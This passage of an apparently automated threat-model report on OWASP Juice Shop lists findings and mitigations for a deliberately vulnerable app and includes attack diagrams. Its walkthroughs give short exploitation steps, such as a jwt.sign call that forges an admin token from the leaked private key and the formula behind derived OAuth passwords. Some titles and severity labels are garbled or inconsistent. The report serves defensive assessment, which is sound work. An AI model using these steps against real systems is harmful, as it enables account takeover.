| **8** | [C-02](#c-02) — Express Backend | ❶ [M-061](#m-061) — Use parameterized database queries | 🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction (`routes/search.ts`) | Low |
| **9** | [C-02](#c-02) — Express Backend | ❶ [M-048](#m-048) — Enforce object-level (ownership) authorization | 🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp (`routes/address.ts`) | Medium |
| **10** | [C-02](#c-02) — Express Backend | ❶ [M-055](#m-055) — Move cryptographic keys to a managed secret store | 🔴 [F-011](#f-011) — Hardcoded RSA Private Key (`lib/insecurity.ts`) | Medium |
| **11** | [C-02](#c-02) — Express Backend | ❶ [M-057](#m-057) — Move secrets to a managed secret store | 🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery (`lib/insecurity.ts`) | Medium |
| **12** | [C-02](#c-02) — Express Backend | ❶ [M-047](#m-047) — Verify token signatures before trusting claims | 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery (`lib/insecurity.ts`) | High |
| **13** | [C-02](#c-02) — Express Backend | ❶ [M-065](#m-065) — Remove server-side evaluation of untrusted input | 🔴 [F-021](#f-021) — Server-Side Template Injection (`routes/userProfile.ts`) | High |
| **14** | [C-03](#c-03) — File Upload Service | ❶ [M-062](#m-062) — Disable XML external entity (XXE) resolution | 🔴 [F-018](#f-018) — XML External Entity Expansion (`routes/fileUpload.ts`) | Low |
| **15** | [C-03](#c-03) — File Upload Service | ❶ [M-063](#m-063) — Validate and allowlist outbound request targets | 🔴 [F-019](#f-019) — Unfiltered SSRF (`routes/profileImageUrlUpload.ts`) | Medium |
| **16** | [C-04](#c-04) — B2B REST API | ❶ [M-064](#m-064) — Remove server-side evaluation of untrusted input | 🔴 [F-020](#f-020) — JavaScript Sandbox Escape (`routes/b2bOrder.ts`) | High |

*30 additional P1/P2 mitigations capped from the leader-board · 13 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:18%"><col style="width:28%"><col style="width:13%"><col style="width:30%"><col style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Container hardening<br/>Automated SCA scanning</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.


```mermaid
graph LR
    G_ROOT["Full host and admin compromise"]:::goal
    OR_PATHS["Any independent attack chain"]:::or_node
    AND_JWT["Forge admin JWT offline"]:::and_node
    OR_SQL["Dump user DB via SQL injection"]:::or_node
    OR_RCE["Server-side code execution"]:::or_node
    OR_SSRF["Internal network pivot or file exfil"]:::or_node
    L_T011["F-011 - Hardcoded RSA private key"]:::leaf
    L_T013["F-013 - Hardcoded RSA key enables forge…"]:::leaf
    L_T007["F-007 - JWT alg allowlist absent"]:::leaf
    L_T010["F-010 - SQL injection auth bypass"]:::leaf
    L_T017["F-017 - SQL injection UNION extraction"]:::leaf
    L_T021["F-021 - SSTI eval in profile handler"]:::leaf
    L_T020["F-020 - JS sandbox escape B2B order"]:::leaf
    L_T018["F-018 - XML external entity expansion"]:::leaf
    L_T019["F-019 - Unfiltered SSRF profile image U…"]:::leaf

    OR_PATHS -->|"OR"| G_ROOT
    AND_JWT -->|"OR"| OR_PATHS
    OR_SQL -->|"OR"| OR_PATHS
    OR_RCE -->|"OR"| OR_PATHS
    OR_SSRF -->|"OR"| OR_PATHS
    L_T011 -->|"AND"| AND_JWT
    L_T013 -->|"AND"| AND_JWT
    L_T007 -->|"AND"| AND_JWT
    L_T010 -->|"OR"| OR_SQL
    L_T017 -->|"OR"| OR_SQL
    L_T021 -->|"OR"| OR_RCE
    L_T020 -->|"OR"| OR_RCE
    L_T018 -->|"OR"| OR_SSRF
    L_T019 -->|"OR"| OR_SSRF

    classDef goal fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px
    classDef and_node fill:#334155,stroke:#1e293b,color:#fff,stroke-width:2px
    classDef or_node fill:#64748b,stroke:#334155,color:#fff,stroke-width:2px
    classDef leaf fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
```

**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-011](#f-011) — Hardcoded RSA Private Key — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery — `lib/insecurity.ts:23` Hardcoded RSA key enables forgery · 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191` JWT alg allowlist absent · 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass — `routes/login.ts:34` SQL injection auth bypass · 🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction — `routes/search.ts:23` SQL injection UNION extraction · 🔴 [F-021](#f-021) — Server-Side Template Injection — `routes/userProfile.ts:62` SSTI eval in profile handler · 🔴 [F-020](#f-020) — JavaScript Sandbox Escape — `routes/b2bOrder.ts:23` JS sandbox escape B2B order · 🔴 [F-018](#f-018) — XML External Entity Expansion — `routes/fileUpload.ts:83` XML external entity expansion · 🔴 [F-019](#f-019) — Unfiltered SSRF — `routes/profileImageUrlUpload.ts:24` Unfiltered SSRF profile image URL

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

juice-shop comprises **5** modeled components. This threat model applied full STRIDE threat analysis to **4 of 5** - the components on the externally-reachable, authentication-bearing, and business-critical surface: **Angular SPA**, **Express Backend**, **File Upload Service**, **Data Layer**. Selection criteria: frontend attack surface; crown-jewel.

The remaining **1** component(s) were **not individually analyzed** at this assessment depth (lower-priority / internal surface): B2B REST API. Re-run at a higher `--assessment-depth` to extend STRIDE coverage to them.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).


```mermaid
flowchart LR
    USER["End User<br/>(browser)"]
    ATTACKER["Anonymous<br/>Internet Attacker"]
    ADMIN["Admin User"]
    SYSTEM["juice-shop"]
    EXTERNAL["External HTTP Services<br/>(SSRF target)"]
    USER -->|HTTPS · normal usage| SYSTEM
    ATTACKER -.->|HTTPS · probing / exploit| SYSTEM
    ADMIN -->|HTTPS · admin actions| SYSTEM
    SYSTEM -->|outbound · HTTPS| EXTERNAL
    classDef user     fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef attacker fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef admin    fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:1.5px
    classDef sys      fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:1.5px
    classDef ext      fill:#f2f2f2,stroke:#9e9e9e,color:#424242,stroke-dasharray:3 3,stroke-width:1px
    class USER user
    class ATTACKER attacker
    class ADMIN admin
    class SYSTEM sys
    class EXTERNAL ext
```

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).


```mermaid
flowchart TB
    subgraph Client
        angular_spa["Angular SPA"]
    end
    subgraph Application
        express_backend["Express Backend"]
        file_upload_service["File Upload Service"]
        b2b_api["B2B REST API"]
    end
    subgraph Data
        data_layer[("Data Layer")]
    end
    angular_spa -->|HTTPS REST| express_backend
    express_backend -->|driver| data_layer
    express_backend -->|in-process| file_upload_service
    express_backend -->|in-process| b2b_api
    classDef critical fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:3px
    classDef warning  fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:2px
    class angular_spa critical
    class express_backend critical
    class file_upload_service warning
    class b2b_api warning
    class data_layer warning
```

**Key takeaway:** The system decomposes into 1 client, 3 application and 1 data unit(s); Express Backend carries the most Critical findings (11) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph EXT["Untrusted Zone - Internet"]
        INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker"]:::threat
        VICTIM_REQUIRED["fa:fa-user Shop User"]:::legit
    end
    subgraph CLIENT["Client Tier"]
        angular_spa["fa:fa-window-restore angular-spa Angular SPA<br/><i>11 threats</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        express_backend["fa:fa-server express-backend Express Backend<br/>+ file-upload-service + b2b-api<br/><i>33 threats</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        data_layer[("fa:fa-database data-layer Data Layer<br/><i>4 threats</i>")]:::risk
    end
    VICTIM_REQUIRED -->|"HTTPS · TLS"| angular_spa
    angular_spa -->|"REST · JWT Bearer"| express_backend
    express_backend -->|"ORM · queries"| data_layer
    INTERNET_ANON -.->|"injection · auth bypass · RCE"| express_backend
    INTERNET_ANON -.->|"XSS · client tampering · token theft"| angular_spa

    classDef legit fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef threat fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef external fill:#f2f2f2,stroke:#424242,color:#212121,stroke-width:1.5px
    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    linkStyle 0,1,2 stroke:#2e7d32,stroke-width:1.5px
    linkStyle 3,4 stroke:#b71c1c,stroke-width:2.5px,stroke-dasharray:6 4
```

**Key takeaway:** Express Backend concentrates the most findings (33 of 60 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|-------------------|-----------|--------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="angular-spa"></a><span style="white-space:nowrap">C-01</span> | Angular SPA | client | `frontend/src/**`<br/>`frontend/*.json`<br/>`frontend/*.ts` | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage (`request.interceptor.ts:13`)<br/>🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)<br/>🔴 [F-014](#f-014) — Stored Cross-Site Scripting (`administration.component.ts:78`)<br/>🔴 [F-015](#f-015) — Stored Cross-Site Scripting (`search-result.component.ts:132`)<br/>🔴 [F-016](#f-016) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)<br/>🟠 [F-022](#f-022) — Missing OAuth State Parameter Enables CSRF on Authorization Callback (`login.component.ts:134`)<br/>🟠 [F-023](#f-023) — Stored Cross-Site Scripting (`last-login-ip.component.ts:39`)<br/>🟠 [F-024](#f-024) — Stored Cross-Site Scripting (`track-result.component.ts:48`)<br/>🟠 [F-041](#f-041) — Client-Side-Only Role Check in Angular Route Guards (`app.guard.ts:53`)<br/>🟡 [F-047](#f-047) — Unauthenticated Socket\.IO Connection (`socket-io.service.ts:21`)<br/>🟡 [F-056](#f-056) — Missing Client-Side Rate Limiting on OAuth and Login Flows (`login.component.ts:134`) |
| <a id="c-02"></a><a id="express-backend"></a><span style="white-space:nowrap">C-02</span> | Express Backend | application | `server.ts`<br/>`app.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**` | 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery (`lib/insecurity.ts:54`)<br/>🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp (`routes/address.ts:11`)<br/>🟠 [F-004](#f-004) — Systemic Missing permissions Block Across GitHub Actions Workflows (`ci.yml:1`)<br/>🟠 [F-005](#f-005) — Unauthenticated Sensitive REST Routes (`server.ts:310`)<br/>🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist (`lib/insecurity.ts:191`)<br/>🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist (`routes/chatbot.ts:248`)<br/>🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist (`routes/verify.ts:117`)<br/>🔴 [F-010](#f-010) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-011](#f-011) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration (`lib/insecurity.ts:54`)<br/>🔴 [F-013](#f-013) — Hardcoded RSA Private Key Enables Offline JWT Forgery (`lib/insecurity.ts:23`)<br/>🔴 [F-017](#f-017) — SQL Injection UNION Data Extraction (`routes/search.ts:23`)<br/>🔴 [F-021](#f-021) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🟠 [F-026](#f-026) — NoSQL / ORM Injection (`routes/recycles.ts:14`)<br/>🟠 [F-029](#f-029) — Rate-Limit Bypass (`server.ts:346`)<br/>🟠 [F-030](#f-030) — Uses --unsafe-perm npm install flag — Dockerfile:5<br/>🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)<br/>🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-033](#f-033) — On absent from repository (`package-lock.json:1`)<br/>🟠 [F-036](#f-036) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-037](#f-037) — XML Parse Error Leaks Up to 400 Chars of Parsed Document in HTTP Response (`routes/fileUpload.ts:87`)<br/>🟠 [F-038](#f-038) — Unauthenticated Directory Listing of `/support/logs` and `/encryptionkeys` (`server.ts:281`)<br/>🟠 [F-042](#f-042) — IDOR Missing Ownership Check on Recycles Endpoint (`routes/recycles.ts:14`)<br/>🟠 [F-043](#f-043) — Zip Slip Path Traversal in Complaint File Upload Handler (`routes/fileUpload.ts:44`)<br/>🟠 [F-044](#f-044) — Unauthenticated Product Update (`server.ts:369`)<br/>🟡 [F-048](#f-048) — Open Redirect (`lib/insecurity.ts:138`)<br/>🟡 [F-052](#f-052) — Container images not signed no cosign or build-provenance attestation — :1<br/>🟡 [F-053](#f-053) — Npm install does not use --ignore-scripts — Dockerfile:5<br/>🟡 [F-054](#f-054) — On postinstall hook present and not audited (`package.json:88`)<br/>🟡 [F-055](#f-055) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)<br/>🟡 [F-057](#f-057) — Unbounded Search Query Causing Full-Table Scan (`routes/search.ts:23`)<br/>🟢 [F-058](#f-058) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-059](#f-059) — Renovate config absent automated dependency updates not file-detectable (`renovate.json:1`) |
| <a id="c-03"></a><a id="file-upload-service"></a><span style="white-space:nowrap">C-03</span> | File Upload Service | application | `routes/fileUpload.ts`<br/>`routes/profileImageFileUpload.ts`<br/>`routes/profileImageUrlUpload.ts`<br/>`routes/memory.ts` | 🔴 [F-018](#f-018) — XML External Entity Expansion (`routes/fileUpload.ts:83`)<br/>🔴 [F-019](#f-019) — Unfiltered SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-027](#f-027) — Extension-Only File Type Check Permits MIME Confusion Upload (`routes/fileUpload.ts:68`)<br/>🟠 [F-040](#f-040) — XML Parsing DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-045](#f-045) — Missing Authentication on File Upload Endpoint (`routes/fileUpload.ts:19`)<br/>🟠 [F-046](#f-046) — Attacker-Controlled UserId in Memory Upload (`routes/memory.ts:24`)<br/>🟡 [F-050](#f-050) — No Audit Logging of File Upload Events (`routes/fileUpload.ts:75`) |
| <a id="c-04"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-04</span> | B2B REST API | application | `routes/b2bOrder.ts` | 🔴 [F-020](#f-020) — JavaScript Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🟠 [F-025](#f-025) — Missing Input Validation on orderLinesData Before Eval (`routes/b2bOrder.ts:19`)<br/>🟠 [F-039](#f-039) — Event-Loop Exhaustion (`routes/b2bOrder.ts:23`)<br/>🟡 [F-049](#f-049) — Absent Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:17`)<br/>🟡 [F-051](#f-051) — Raw Error Propagation Leaks Stack Trace on Eval Failure (`routes/b2bOrder.ts:33`) |
| <a id="c-05"></a><a id="data-layer"></a><span style="white-space:nowrap">C-05</span> | Data Layer | data | `models/**`<br/>`data/**`<br/>`encryptionkeys/**`<br/>`ftp/**`<br/>`uploads/**` | 🟠 [F-028](#f-028) — Missing Security Audit Log for Authentication and Data Mutation Events (`models/index.ts:39`)<br/>🟠 [F-034](#f-034) — Unencrypted SQLite Database at Rest (`models/index.ts:38`)<br/>🟠 [F-035](#f-035) — Sensitive Files Publicly Served (`ftp/acquisitions.md:1`)<br/>🟠 [F-060](#f-060) — Data disclosure (`challenges.yml:1381`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph CLIENT["Client Tier"]
        FE_ANGULAR["fa:fa-window-restore Angular SPA<br/><i>browser runtime</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        RUNTIME["fa:fa-server Node.js<br/><i>JS runtime</i>"]:::risk
        EXPRESS["fa:fa-server Express<br/><i>HTTP framework</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        ORM["fa:fa-database Sequelize ORM<br/><i>object-relational mapper</i>"]:::risk
        SQLITE[("fa:fa-database SQLite<br/><i>embedded relational DB</i>")]:::risk
        MARSDB[("fa:fa-database MarsDB<br/><i>in-memory NoSQL</i>")]:::risk
        LOCAL_FS["fa:fa-folder-open Local FS<br/><i>uploads · logs · keys</i>"]:::risk
    end
    subgraph INFRA["Cross-Cutting"]
        INFRA_SCM["fa:fa-code-branch GitHub (public)<br/><i>source supply chain</i>"]:::risk
    end
    FE_ANGULAR -->|"HTTPS · JWT"| RUNTIME
    EXPRESS -->|"DB driver"| ORM
    EXPRESS -->|"DB driver"| SQLITE
    EXPRESS -->|"DB driver"| MARSDB
    EXPRESS -->|"file I/O"| LOCAL_FS
    INFRA_SCM -.->|"clone · extract secrets"| EXPRESS

    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    classDef ok fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2,3,4 stroke:#424242,stroke-width:1.5px
    linkStyle 5 stroke:#9e9e9e,stroke-width:1px,stroke-dasharray:3 3
```

**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Hardcoded RSA Private Key Enables JWT Forgery — lib/insecur…

**Source:** 🔴 [F-001](#f-001) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-345](https://cwe.mitre.org/data/definitions/345.html)). STRIDE: Spoofing. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. The RSA private key at `lib/insecurity.ts:23` is committed verbatim in the public GitHub repository.
2. `isAuthorized()` at line 54 is implemented as `expressJwt({ secret: publicKey })` with no `algorithms` parameter - express-jwt 0.1.3 does not enforce an algorithm allowlist, accepting `RS256` and potentially `alg:none`.
3. An attacker extracts the private key from the source code and uses `jwt.sign({ email: 'admin@juice-sh.op', role: 'admin' }, privateKey, { algorithm: 'RS256' })` to mint a valid bearer token offline.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - lib/insecurity.ts:54
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 54
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-345
    alt Current state — F-001
        Attacker->>App: Crafted request exploiting F-001 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-047 — Verify token signatures before trusting claims
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-047](#m-047) (Verify token signatures before trusting claims) lands, 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-345](https://cwe.mitre.org/data/definitions/345.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-047](#m-047) (Verify token signatures before trusting claims)

### 3.2 Systemic Broken Authorization Attacker-Controlled Owner ID…

**Source:** 🔴 [F-002](#f-002) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - routes/address.ts:11
    Attacker->>App: Crafted request exercising the weakness at routes/address.ts line 11
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-002
        Attacker->>App: Crafted request exploiting F-002 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-048 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-048](#m-048) (Enforce object-level (ownership) authorization) lands, 🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp — `routes/address.ts:11` is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-048](#m-048) (Enforce object-level (ownership) authorization)

### 3.3 OAuth Implicit Flow with Derived Password — oauth.component…

**Source:** 🔴 [F-006](#f-006) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Spoofing. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. The SPA initiates OAuth via `response_type=token` (`login.component.ts:134`), which delivers the access_token in the URL fragment.
2. `oauth.component.ts:28` extracts `access_token` from `this.route.snapshot.data.params` (the fragment) using `parseRedirectUrlParams()`, then calls `profile.email` to derive a local account password as `btoa(profile.email.split('').reverse().join(''))` at line 30.
3. Any attacker who knows a victim's email address can compute this deterministic password offline and authenticate as that user on the Juice Shop local auth endpoint - bypassing the OAuth identity provider entirely.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: angular-spa - frontend/src/app/oauth/oauth.component.ts:30
    Attacker->>App: Crafted request exercising the weakness at frontend/src/app/oauth/oauth.component.ts line 30
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-287
    alt Current state — F-006
        Attacker->>App: Crafted request exploiting F-006 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-052 — Harden the authentication flow
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-052](#m-052) (Harden the authentication flow) lands, 🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-052](#m-052) (Harden the authentication flow)

### 3.4 JWT verify call missing algorithms allowlist — lib/insecuri…

**Source:** 🔴 [F-007](#f-007) — `lib/insecurity.ts:191`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.
2. Send the crafted payload to the endpoint backed by `lib/insecurity.ts:191`.
3. The vulnerable code path accepts the payload without enforcing the missing control.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - lib/insecurity.ts:191
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 191
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-007
        Attacker->>App: Crafted request exploiting F-007 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-053 — Enforce JWT signature and algorithm verification
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191` is exploitable at `lib/insecurity.ts:191` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification)

### 3.5 JWT verify call missing algorithms allowlist — routes/chatb…

**Source:** 🔴 [F-008](#f-008) — `routes/chatbot.ts:248`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.
2. Send the crafted payload to the endpoint backed by `routes/chatbot.ts:248`.
3. The vulnerable code path accepts the payload without enforcing the missing control.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - routes/chatbot.ts:248
    Attacker->>App: Crafted request exercising the weakness at routes/chatbot.ts line 248
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-008
        Attacker->>App: Crafted request exploiting F-008 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-053 — Enforce JWT signature and algorithm verification
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist — `routes/chatbot.ts:248` is exploitable at `routes/chatbot.ts:248` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification)

### 3.6 JWT verify call missing algorithms allowlist — routes/verif…

**Source:** 🔴 [F-009](#f-009) — `routes/verify.ts:117`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.
2. Send the crafted payload to the endpoint backed by `routes/verify.ts:117`.
3. The vulnerable code path accepts the payload without enforcing the missing control.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - routes/verify.ts:117
    Attacker->>App: Crafted request exercising the weakness at routes/verify.ts line 117
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-009
        Attacker->>App: Crafted request exploiting F-009 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-053 — Enforce JWT signature and algorithm verification
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist — `routes/verify.ts:117` is exploitable at `routes/verify.ts:117` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-053](#m-053) (Enforce JWT signature and algorithm verification)

### 3.7 SQL Injection Authentication Bypass — routes/login.ts:34

